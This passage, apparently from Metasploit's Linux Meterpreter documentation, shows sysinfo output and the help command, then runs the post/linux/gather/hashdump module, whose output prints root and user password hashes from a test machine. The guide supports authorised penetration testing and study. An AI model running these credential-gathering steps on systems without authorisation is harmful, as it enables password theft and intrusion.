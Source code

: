 ```
* OS name
* Architecture
* Meterpreter type

For example:

```
meterpreter > sysinfo
Computer     : sinn3r-virtual-machine
OS           : Linux sinn3r-virtual-machine 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 (i686)
Architecture : i686
Meterpreter  : x86/linux
meterpreter > 
```

**Other commands**

For a complete list of Linux Meterpreter commands, do the following at the prompt:

```
meterpreter > help
```


## Using a Post module

One of the best things about Meterprter is you have access to a variety of post modules that
"shell" sessions might not have. Post modules provide you with more capabilities to collect data
from the remote machine automatically. For example, stealing credentials from the system or
third-party applications, or modify settings, etc.

To use a post module from the Meterpreter prompt, simply use the ```run``` command. The following
is an example of collecting Linux hashes using post/linux/gather/hashdump:

```
meterpreter > run post/linux/gather/hashdump

[+] root:$6$cq9dV0jD$DZNrPKKIzcJaJ1r1xzdePEJTzn5f2V5lm9CnSdkMRPJfYy7QVx2orpzlf1XXBbIRZs7kT9CmYEMApfUIrWZsj/:0:0:root:/root:/bin/bash
[+] sinn3r:$6$S5lRz0Ji$bS0rOko3EVsAXwqR1rNcE/EhpnezmKH08Yioxyz/gLZAGh3AoyV5qCglvHx.vSINJNqs1.xhJix3pWX7jw8n0/:1000:1000:sinn3r,,,:/home/sinn3r:/bin/bash
[+] Unshadowed Password File: /Users/wchen/.msf4/loot/20160707112433_http_172.16.23.182_linux.hashes_845236.txt
meterpreter > 
```

Note that in order to collect Linux hashes, Meterpreter needs to run as root.

## Using the Post Exploitation API in IRB

To enter IRB, do the following at the Meterpreter prompt:

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
